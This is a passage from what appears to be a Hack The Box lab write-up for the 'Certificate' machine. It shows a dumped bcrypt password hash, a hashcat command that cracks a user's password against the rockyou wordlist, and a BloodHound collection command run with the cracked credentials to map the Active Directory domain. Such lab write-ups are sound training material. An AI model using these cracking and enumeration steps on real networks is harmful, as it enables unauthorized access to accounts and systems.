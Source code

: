 ```
username: benkyou
password: $2y$04$RcfMH2mdb6yUXwzaKfTgpuX5ieE5TojKREKEYvOnEFB2ws5s8maF2
    role: student
7 rows in set (0.177 sec)
```

sara.b's hash cracks to Blink182, this gives us our first domain user credentials.

```
hashcat -m 3200 mysql.hashes /usr/share/wordlists/rockyou.txt
...[SNIP]...
$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6:Blink182
```

## User as Lion.SK

I'll start by running a BloodHound ingestor to map out the domain.

```
bloodhound-python --username sara.b --password Blink182 -c All -d certificate.htb -dc DC01.certificate.htb -ns 10.129.249.89 --zip --dns-timeout 30
```

sara.b is a member of the Help Desk group, and members of this group are enrolled in the Remote Management and Remote Desktop group. 
![alt text](/assets/img/2025-10-05-htb-certificate/sara-rm.png)
